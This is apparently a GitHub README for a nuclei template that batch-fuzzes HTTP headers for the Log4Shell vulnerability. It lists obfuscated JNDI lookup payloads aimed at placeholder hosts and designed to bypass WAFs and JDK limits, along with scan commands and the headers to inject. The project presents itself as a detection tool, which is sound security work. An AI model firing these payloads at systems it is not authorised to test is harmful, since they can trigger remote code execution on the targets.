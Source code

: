 # log4j-fuzz-head-poc轻量级检测
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh的dnslog

为什么用这种，这种方法也是从蜜罐中获取到攻击组织最常用的方法，简单，有效

### v2版本
添加了绕过rc1的poc
也同时能绕过常见主流waf拦截，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

### structs2版本
添加了structs2静态文件 If-Modified-Since 头利用方式。
参考：https://mp.weixin.qq.com/s/T-rcZnQxxUK1n2_lJNoUZg


### structs2 利用变种
添加了structs2利用方式变种。
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### vCenter 利用
添加了vCenter利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### solr 利用
添加了Apache solr利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 10 单个检测  速率为10（速率不要太高）

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 10   批量检测  速率为10（速率不要太高）
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

* X-Client-IP
* X-Remote-IP
* X-Remote-Addr
* X-Forwarded-For
* X-Originating-IP
* User-Agent
* Referer
* CF-Connecting_IP
* True-Client-IP
* X-Forwarded-For
* Originating-IP
* X-Real-IP
* X-Client-IP
* Forwarded
* Client-IP
* Contact
* X-Wap-Profile
* X-Api-Version
* If-Modified-Since(structs2)
